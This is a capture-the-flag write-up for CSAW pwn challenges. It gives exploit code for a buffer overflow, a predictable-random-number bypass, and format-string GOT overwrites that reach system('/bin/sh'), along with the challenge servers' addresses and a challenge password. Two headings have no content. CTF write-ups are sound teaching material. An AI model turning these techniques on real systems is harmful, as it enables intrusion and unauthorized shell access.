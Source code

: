 Table of Contents
=================

   * [Alien math](#alien-math)
   * [haySTACK](#haystack)
   * [procrastination-simulator](#procrastination-simulator)
      * [file_4](#file_4)
      * [file_2](#file_2)
      * [file_1](#file_1)
   * [Cold](#cold)
   * [word_games](#word_games)

Sorry for my bad english !!
## Alien math
```
Alien Math
60
Brush off your Flirbgarple textbooks!

nc pwn.chal.csaw.io 5004
```
![image](https://user-images.githubusercontent.com/87422359/133059630-36a26841-4747-4ec2-8b66-33a8b6ca0365.png)
![image](https://user-images.githubusercontent.com/87422359/133059840-163d6577-05db-47ce-af83-eb8601f5fc55.png)
![image](https://user-images.githubusercontent.com/87422359/133060090-14b3f5c4-76ad-46f0-9c3c-9235d4531789.png)
there are a BoF bug and a function give us the flag, just return to it.
<br />
payload:
<br />
```python
print_flag = 0x4014FB
r.sendlineafter("salwzoblrs", 'a'*0x18 + p64(print_flag))
```
## haySTACK
![image](https://user-images.githubusercontent.com/87422359/133061463-df45127b-c6df-4a61-9bc8-19277783455a.png)
```c
unsigned __int64 __fastcall sub_1273(__int64 a1)
{
  int i; // [rsp+14h] [rbp-3Ch]
  int v3; // [rsp+18h] [rbp-38h]
  int v4; // [rsp+1Ch] [rbp-34h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+30h] [rbp-20h]
  __int64 v8; // [rsp+38h] [rbp-18h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = random();
  *(4LL * v3 + a1) = 4919;
  *s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  for ( i = 0; i <= 2; ++i )
  {
    fwrite("Which haystack do you want to check?\n", 1uLL, 0x25uLL, stdout);
    fgets(s, 32, stdin);
    v4 = atoi(s);
    if ( v4 <= 0x100000 )
    {
      if ( v4 == v3 )
      {
        printf("Hey you found a needle! And its number is 0x%08x! That's it!\n", *(4LL * v4 + a1));
        win();
      }
      else
      {
        printf("Hey, you found a needle, but it's number is 0x%08x. I don't like that one\n", *(4LL * v4 + a1));
        if ( i )
        {
          if ( i == 1 )
            puts("Did I mention I'm in a hurry? I need you to find it on your next guess");
        }
        else
        {
          puts("Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle");
        }
      }
    }
    else
    {
      fwrite("I don't have that many haystacks!\n", 1uLL, 0x22uLL, stdout);
    }
    if ( i == 2 )
    {
      puts("I'm out of time. Thanks for trying...");
      return v9 - __readfsqword(0x28u);
    }
    puts("Let's try again!");
  }
  return v9 - __readfsqword(0x28u);
}
```
we will get flag if our input equal to the random number `v3`
<br />
payload:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc,char** argv) {
	int result;
	srand(time(NULL) + 2);
	result = rand() % 0x100000;
	printf("%d\n", result);
}
```
```python
process = subprocess.Popen('./a.out', stdout=subprocess.PIPE)
rd = process.stdout.readline().rstrip()
r.sendline(rd)
```
## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password and there is another binary on that server. <br />
there are 3 levels, we need a different payload when we up to next level, we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dig into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
## Cold
## word_games
